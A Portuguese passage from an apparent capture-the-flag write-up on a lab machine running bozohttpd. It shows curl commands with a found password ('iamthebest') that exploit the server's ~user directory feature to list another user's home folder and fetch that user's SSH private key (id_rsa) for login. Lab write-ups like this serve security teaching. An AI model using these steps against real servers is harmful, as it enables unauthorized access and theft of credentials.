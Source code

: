 Pesquisando sobre o bozohttpd, o servidor utilizado para esta publicação, encontrei esta [**man page**](https://man.netbsd.org/NetBSD-7.0/bozohttpd.8) que descreve uma das suas features: *~user translation*, que permite acessar diretórios virtuais dos usuários através de chamada do tipo `http://<server>/~<username>`. Iss foi confirmado a partir da seguinte chaada utilizando o `curl`:  

```bash
curl http://127.0.0.1:3000/~r.michaels -u webapi_user
Enter host password for user 'webapi_user':iamthebest
  
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 172 0 172 0 0 86000 0 --:--:-- --:--:-- --:--:-- 86000
<html><head><title>Document Moved</title></head>
<body><h1>Document Moved</h1>
This document had moved <a href="http://127.0.0.1:3000/~r.michaels/">here</a>
</body></html>
```

Entretanto, uma vez que a instância na porta 3000 roda com a conta `_httpd`, não temos permissão neste diretório, mas como notamos que existe uma outra instancia na porta 3001 em execução pelo usuário `r.michaels`, pudemos obter o seguinte resultado, onde vemos a existência de um aquivo chamado **id_rsa**

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 601 0 601 0 0 293k 0 --:--:-- --:--:-- --:--:-- 586k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
border-top: 1px solid black;
border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

Ao baixar este arquivo, notamos que se trata de uma chave OpenSSH,  a qual possivelmente nos permitirá logar com a conta `r.michaels` e obter a flag do usuário.

